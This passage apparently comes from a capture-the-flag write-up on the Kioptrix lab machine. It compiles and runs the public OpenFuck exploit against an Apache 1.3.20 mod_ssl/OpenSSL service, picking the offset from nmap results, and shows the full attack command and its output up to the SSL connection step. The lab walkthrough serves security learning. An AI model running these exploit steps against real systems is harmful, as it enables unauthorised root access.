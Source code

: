 According to the file head we need to:
* Install libssl-dv using the command `sudo apt install libssl-dev`
* Compile the file (remember to change the name of the .c file) `gcc -o OpenFuck OpenFuck.c -lcrypto`
* Change the file permissions in order to execute it `sudo chmod 777 OpenFuck` (744 is also OK)

Now we can execute the binary file using `./OpenFuck`. The output is:

```
$ ./OpenFuck   

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
	0x00 - Caldera OpenLinux (apache-1.3.26)
	...
	0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
	...

#&$@ to all guys who like use lamah ddos. Read SRC to have no surprise
```

What we need:
1. **target** - offset value from the list
From our nmap scan we know the service version is: "Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)".
Looking for Red-Hat and 1.3.20 versions leave us with two options:
* **0x6a** - RedHat Linux 7.2 (apache-1.3.20-16)1
* **0x6b** - RedHat Linux 7.2 (apache-1.3.20-16)2
2. **box** - target's IP -  'kioptrix' in our case
4. **port** - HTTP port - 443 in our case
5. **Number of connection** to open (range of 40-50) - We'll go with 40

Therefore the complete command we'll use: `./Openfuck 0x6b kioptrix 443 -c 40`:

```console
$ ./OpenFuck 0x6b kioptrix 443 -c 40
*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
```